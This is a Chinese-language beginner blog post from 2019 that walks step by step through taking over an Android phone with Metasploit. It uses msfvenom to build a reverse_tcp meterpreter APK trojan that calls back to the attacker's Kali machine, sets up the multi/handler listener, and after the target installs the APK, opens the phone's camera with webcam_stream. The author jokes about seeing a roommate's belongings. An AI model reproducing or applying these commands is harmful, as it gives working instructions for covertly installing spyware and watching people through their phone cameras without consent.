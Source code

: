 ```yaml
---
layout:     post
title:      kali渗透手机
subtitle:   写着玩的
date:       2019-05-18
author:     Nikola
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - kali
    - 渗透
    
    
---
```


![img](https://i.loli.net/2018/12/27/5c24a7330d870.png)

**写个小白教程**

**原理：**

利用Metasploit生成xxx.apk的木马文件，让目标手机下载这个木马程序，然后这个木马就会反弹连接你的kali,你就可以控制手机了。

**开始：**



便与测试，我这里kali和手机是同一个网段，就是连得同一个wifi。

1.kali的ip: 192.168.31.65，

2.一会我会让目标的手机反连我kali的9999端口号，记住端口号不能冲突。

3.打开终端输入

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.31.65 LPORT=9999 R > /root/qiaozhu.apk
```

![img](https://i.loli.net/2018/12/27/5c24a4cf595e8.png)

然后ls查看，生成如下文件

![img](https://i.loli.net/2018/12/27/5c24a4cf07164.png)

打开metasploit



![img](https://i.loli.net/2018/12/27/5c24a4d03421a.png)

进入msf之后，首先使用search命令找到exploit/multi/handler模块，如下





![img](https://i.loli.net/2018/12/27/5c24a4cf4bd5d.png)

```
use exploit/multi/handler //加载模块
show options //加载完模块，看看有哪些选项
```

![img](https://i.loli.net/2018/12/27/5c24a4d034c99.png)

选择android/meterpreter/reverse_tcp这个载荷选项

```
set payload android/meterpreter/reverse_tcp
```

set LHOST 192.168.31.65 //设置我的ip

set LPORT 9999 //设置我的端口9999

![img](https://i.loli.net/2018/12/27/5c24a4d013160.png)

然后就开始侦听了，一旦我这边手机安装qiaozhu.apk运行之后，我kali这边就会

![img](https://i.loli.net/2018/12/27/5c24a4d018726.png)

看见没有，激动不激动，出现meterpreter 说明成功了
输入webcam_stream ，开启摄像头

![img](https://i.loli.net/2018/12/27/5c24a4d1445d4.png)

看到舍友的衣架子了。。拜拜

![img](http://blog3-1258612035.cos.ap-shanghai.myqcloud.com/20190311151109/20190311035128908.png)